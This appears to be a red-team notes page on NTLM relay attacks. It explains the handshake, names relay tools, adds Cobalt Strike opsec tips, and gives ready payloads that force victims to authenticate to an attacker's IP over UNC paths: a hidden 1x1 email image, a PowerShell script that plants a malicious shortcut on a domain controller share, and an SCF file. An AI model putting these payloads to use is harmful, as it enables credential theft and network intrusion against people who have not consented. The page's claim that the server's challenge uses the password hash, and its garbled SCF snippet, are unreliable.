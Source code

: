 # NTLM Relaying
NTLM authentication uses a 3-way handshake between a client and server. The high-level steps are as follows:
1.  The client makes an authentication request to a server for a resource it wants to access.
2.  The server sends a challenge to the client, whereas the challenge is using the hash of the users password.
3.  The client sends the encrypted response to the server, which contacts a domain controller to verify the encrypted challenge is correct.

In an NTLM relay attack, an attacker is able to intercept or capture this authentication traffic and effectively allows them to impersonate the client against the same, or another service.

An example:  
A client attempts to connect to an SQL server, but the attacker monitors the authentication mechanism and impersonates/replays the handshake, to connect to the CIFS service as he was the client.

In case a linux host is available tools like
* [[Responder]]
* [[ntlmrelayx]]

can be used.

But on Windows port 445 is always in use so the SMB port needs to be bended by [[PortBender]] which will be reflective injected.

⚠️This pretty much breaks any SMB service on the machine.

#opsec: The loaded driver will be located in the current working directory of the Beacon so choose `C:\Windows\System32\drivers` before you run.  


## Force Authentication
If you don't have the possibilities to fetch a request try some force authentication methods as shown below.

### 1x1 Images in Emails
Send emails with an invisible 1x1 image embedded in the mail. When being viewed the email client will attempt to download the image over the UNC path and trigger an NTLM authentication attempt.
`<img src="\\10.10.10.21\test.ico" height="1" width="1" />`

### Windows Shortcuts
The icon property of the Windows shortcut (.lnk) can can be used by pointing it to an UNC path which will trigger an NTLM authentication attempt just by being viewed.

The easiest way to create a shortcut is with PowerShell.
``````powershell
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\dc1\share\test.lnk")
$shortcut.IconLocation = "\\10.10.10.21\test.ico"
$shortcut.Save()
``````

### SCF file
SCF (Shell Command Files) files can be used to access a specific UNC path. Paste the code below into a text file and store it on a network share.
``````@log.scf
[Shell]
Command=``2
IconFile=\\X.X.X.X\share\test.ico
[Taskbar]
Command=ToggleDesktop
``````

## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```